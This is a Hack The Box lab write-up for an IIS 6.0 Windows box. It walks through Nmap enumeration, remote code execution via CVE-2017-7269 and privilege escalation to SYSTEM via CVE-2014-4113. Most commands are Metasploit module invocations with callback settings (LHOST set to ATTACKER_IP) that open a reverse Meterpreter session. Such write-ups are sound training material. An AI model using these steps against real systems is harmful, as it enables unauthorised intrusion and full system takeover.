



**Difficulty:** Easy
**OS:** Windows
**Date Completed:** 2026-08-27
**Write-up Authored by:** Ian Simons
**Challenge Created by:** ch4p
**Core Competencies:**
- Network Enumeration with Nmap
- Vulnerability Research
- Initial Access with Metasploit
- Vulnerability Scanning with Metasploit
- Privilege Escalation with Metasploit

---
## Overview
This Box was recommended by the Hack the Box Academy Job Role Path "Penetration Tester" in the "Getting Started" Module. The purpose of completing this box is to build familiarity with Metasploit. As we will see it did just that.
Note: Flags documented in Appendix B

---
## Vulnerability summary

| Vulnerability                                       | CVE           | CVSS Score    | MITRE ATT&CK Technique                        | ATT&CK Tactic        |
| --------------------------------------------------- | ------------- | ------------- | --------------------------------------------- | -------------------- |
| IIS 6.0 WebDAV Buffer Overflow Vulnerability        | CVE-2017-7269 | 9.8 (CVSS v3) | T1190 - Exploit Public-Facing Application     | Initial Access       |
| Microsoft Win32k Privilege Escalation Vulnerability | CVE-2014-4113 | 7.8 (CVSS v3) | T1068 - Exploitation for Privilege Escalation | Privilege Escalation |

---
## Attack Path Summary
1. Performed network reconnaissance with **Nmap**, and identified **Microsoft IIS 6.0** with the **WebDAV** extension enabled
2. Researched known vulnerabilities for **IIS 6.0/WebDAV**, identified **CVE-2017-7269** as a potential attack vector
3. Searched the **Metasploit Framework** for available modules and located an exploit targeting the vulnerability
4. Leveraged the Metasploit module: **exploit/windows/iis/iis_webdav_scstoragepathfromurl** to gain Initial Access to system
5. Migrated Meterpreter session to a more stable process
6. Utilized Metasploit module: **post/multi/recon/local_exploit_suggester** to identify potential Privilege Escalation vulnerability
7. Leveraged Metasploit module: **exploit/windows/local/ms14_058_track_popup_menu** to escalate privileges to **NT Authority\System**
8. Located and captured the user and root/system flags, completing the objectives of the engagement
---
## Reconnaissance
### Port Discovery
Nmap scan results
```
┌─[us-dedivip-3]─[10.10.14.169]─[n00blyfe@pwnbox7]─[~]
└──╼ [★]$ sudo nmap -sC -sV -oN scan.txt -T4 10.129.60.246
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-27 12:52 EDT
Nmap scan report for 10.129.60.246
Host is up (0.014s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 27 Aug 2026 16:52:34 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.11 seconds
```

#### Key Open Ports and Services

A single exposed service was identified

| Port   | Service | Version           |
| ------ | ------- | ----------------- |
| 80/TCP | HTTP    | Microsoft IIS 6.0 |
### Service Enumeration
Further enumeration confirmed Microsoft IIS 6.0 and identified WebDAV as enabled. Multiple WebDAV methods were exposed including: **OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH**
### Web Enumeration 
Web application presented only an "Under Construction" page. No additional content was identified during initial enumeration
### Vulnerability Research
The exposed attack surface was limited to IIS 6.0 and WebDAV functionality. Research identified CVE-2017-7269, a known remote code execution vulnerability affecting IIS 6.0 WebDAV deployments, as a potential method for exploitation.

---
## Initial Access
### Vulnerability Details
- Description: IIS 6.0 WebDAV Buffer Overflow Vulnerability
- CVE: CVE-2017-7269
- CVSS score: 9.8 (CVSS v3)
- MITRE ATT&CK: Initial Access - T1190: Exploit Public-Facing Application

Microsoft IIS 6.0 with WebDAV enabled is vulnerable to a buffer overflow attack  (CVE-2017-7269) allowing an unauthenticated attacker to achieve remote code execution through a specially crafted HTTP request.
#### Exploitation Steps
Based on the identified IIS 6.0 WebDAV service, the Metasploit module **exploit/windows/iis/iis_webdav_scstoragepathfromurl** was selected because it specifically targets CVE-2017-7269

1. Launch Metasploit framework
2. Select module **exploit/windows/iis/iis_webdav_scstoragepathfromurl** targeting CVE-2017-7269 
3. Configure target and callback parameters
4. Execute the exploit and obtain a remote session
#### Key Commands / Payloads
```
#launch Metasploit Framework console
msfconsole

#select appropriate exploit module
use exploit/windows/iis/iis_webdav_scstoragepathfromurl

#set appropriate options for module
set RHOST <TARGET_IP>
set RPORT 80
set LHOST <ATTACKER_IP>
set LPORT 4444

#run exploit
run
```

#### Proof of Access 
##### Screenshots

Figure 1: Proof of initial access. Successful exploitation of CVE-2017-7269 resulted in command execution on the target host. Session validated by confirming execution context, hostname, and operating system version.
##### Session Validation Commands
```
#Check user context
whoami.exe

#Verify target hostname
hostname

#Verify operating system version
 ver
```

---
## Privilege Escalation 
### Session Preparation
The Initial Meterpreter session was migrated to a more stable process prior to privilege escalation. Process migration improved session reliability and ensured compatibility with subsequent local exploitation modules. 
### Vulnerability Details
- Description: Microsoft Win32k Privilege Escalation Vulnerability
- CVE: CVE-2014-4113
- CVSS score: 7.8 (CVSS v3)
- MITRE ATT&CK: Privilege Escalation - T1068: Exploitation for Privilege Escalation

Microsoft Windows systems affected by CVE-2014-4113 are vulnerable to a Win32k privilege escalation flaw that can allow a local attacker to execute code with elevated privileges, potentially resulting in SYSTEM-level access. 
#### Exploitation Steps
1. Migrate the Meterpreter session to a more stable process
2. Move Meterpreter Session to background
3. Select Module **exploit/windows/local/ms14_058_track_popup_menu** 
4. Configure target session and callback parameters
5. Execute Exploit and obtain NT AUTHORITY\SYSTEM privileges
#### Key Commands / Payloads
```
#check current processes
ps

#Migrate process
migrate <TARGET_PROCESS>

#Background current session
[CTRL+z]

#Select appropriate module
use exploit/windows/local/ms14_058_track_popup_menu

#Configure module options
set SESSION <TARGET_SESSION>
set LHOST <ATTACKER_IP>
set LPORT 4444

#Run exploit
run

```

#### Proof of Privileges Escalation


Figure 2: Proof of Privilege Escalation. Successful exploitation of CVE-2014-4113 resulted in execution within the NT Authority\System security context. Privileges validated by confirming execution context with the whoami command.

---
## Lessons Learned 
The whole point of completing this Box was to build the fundamentals of using Metasploit. In that endeavor this Box was a complete success. There were absolutely some pain points along the way. However I now feel much more comfortable getting around the Metasploit Framework Console and utilizing a Meterpreter shell. Below are some key takeaways that hopefully can help others also attempting to solidify these fundamentals.
- Identifying a vulnerability before searching for an exploit is often more ifficient than searching for exploits first. Correlating discovered services with known CVEs can significantly narrow the research scope
- Initial access does not guarantee successful privilege escalation. Session preparation and stability can be the difference between success and failure
- Active exploitation can destabilize or crash services. Maintain thorough notes and documentation to ensure quick recovery if that happens
---
## Appendix
### Appendix A
#### Tools Used 
| Tool                 | Purpose                                                                       |
| -------------------- | ----------------------------------------------------------------------------- |
| Nmap                 | Network Reconnaissance, Service Discovery, and version detection              |
| SearchSploit         | Vulnerability research and exploit identification                             |
| Metasploit Framework | Exploitation, session management, post-exploitation, and privilege escalation |

### Appendix B
#### Flags found

User Flag:
700c\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*7d1

Root Flag:
aa4\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*6e9

### Appendix C
#### Supporting Evidence
No additional supporting evidence was required beyond the artifacts included throughout this write-up
